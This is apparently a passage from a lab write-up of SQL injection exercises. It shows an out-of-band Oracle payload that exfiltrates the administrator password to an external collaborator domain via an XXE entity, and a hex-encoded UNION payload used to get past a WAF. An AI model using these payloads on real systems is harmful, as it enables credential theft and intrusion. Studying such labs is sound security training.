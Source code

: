 Explanation:

Again, the payload from SQLi cheatsheet was used and special characters like `=`, `?`, etc were URL-encoded.

```
'+UNION+SELECT+EXTRACTVALUE(xmltype('<%3fxml+version%3d"1.0"+encoding%3d"UTF-8"%3f><!DOCTYPE+root+[+<!ENTITY+%25+remote+SYSTEM+"http%3a//'||(SELECT+password+FROM+users+WHERE+username%3d'administrator')||'.ybdste9254tz2gpasecdygvolfr6fw3l.oastify.com/">+%25remote%3b]>'),'/l')+FROM+dual--+-
```

The request can be sent through repeater.

![](/assets/images/SQLi/Pasted%20image%2020251001192441.png)

We can see the password in the response in PASSWORD.SUBDOMAIN.oastify.com

![](/assets/images/SQLi/Pasted%20image%2020251001192644.png)

Logging in with the password solves the lab.

![](/assets/images/SQLi/Pasted%20image%2020251001192625.png)

### 18. SQL injection with filter bypass via XML encoding

Payload that worked:

```
<@hex_entities>
1 UNION SELECT password from users where username='administrator';
</@hex_entities>
```

Explanation:

We first open a random product.

![](/assets/images/SQLi/Pasted%20image%2020251001193824.png)

There is a check stock option. Clicking on that reveals the stock number.

![](/assets/images/SQLi/Pasted%20image%2020251001193856.png)

It looks like there is a stock API. Based on the question we know, storeID is vulnerable to SQLi.

![](/assets/images/SQLi/Pasted%20image%2020251001193924.png)

Trying to find the number of columns shows that the payload is getting detected by WAF.

![](/assets/images/SQLi/Pasted%20image%2020251001194103.png)

The solution says we should use the Hackverter extension to get encode the payload to exploit the SQLi.

![](/assets/images/SQLi/Pasted%20image%2020251001194307.png)

We can then exploit the UNION injection to find usernames from user tables.
